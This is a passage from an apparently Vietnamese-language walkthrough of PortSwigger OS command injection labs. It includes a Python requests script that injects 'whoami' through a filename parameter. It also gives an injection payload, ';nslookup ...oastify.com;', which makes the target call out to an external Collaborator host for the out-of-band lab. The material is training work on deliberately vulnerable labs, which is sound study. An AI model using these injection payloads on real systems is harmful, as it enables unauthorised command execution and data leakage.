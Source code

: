 ```python=
    'filename': 'whoami'
}

response = requests.get(
    url + '/image',
    params=params,
    verify=False,
)

# print(response.text) # hiển thị response có flag
soup = BeautifulSoup(response.text, 'html.parser')
print(soup)
```

![image](https://hackmd.io/_uploads/rJOmwh5Y6.png)

mục đích của chúng ta đã được thực hiện và mình cũng đã giải quyết được bài lab này

![image](https://hackmd.io/_uploads/HkT7Qh9Kp.png)

## 4.Lab: Blind OS command injection with out-of-band interaction

link: https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band

### Đề bài

![image](https://hackmd.io/_uploads/rJVkFjE_R.png)

### Phân tích

- Ứng dụng thực thi lệnh shell chứa thông tin chi tiết do người dùng cung cấp. Lệnh được thực thi không đồng bộ và không ảnh hưởng đến phản hồi của ứng dụng. Không thể chuyển hướng đầu ra vào vị trí mà bạn có thể truy cập. Tuy nhiên, bạn có thể kích hoạt tương tác ngoài băng tần với miền bên ngoài.

### Khai thác

![image](https://hackmd.io/_uploads/SJ4R1hNuR.png)

- thực hiện nslookup truy vấn đến burpcolabrator của chúng ta

`;nslookup+wbbx198pcmvu9iw4z7r37e7n2e85wvkk.oastify.com;`

![image](https://hackmd.io/_uploads/rJK5ln4uA.png)

![image](https://hackmd.io/_uploads/Byzox3NuC.png)

![image](https://hackmd.io/_uploads/Bk-3gnEdC.png)

## 5. Lab: Blind OS command injection with out-of-band data exfiltration
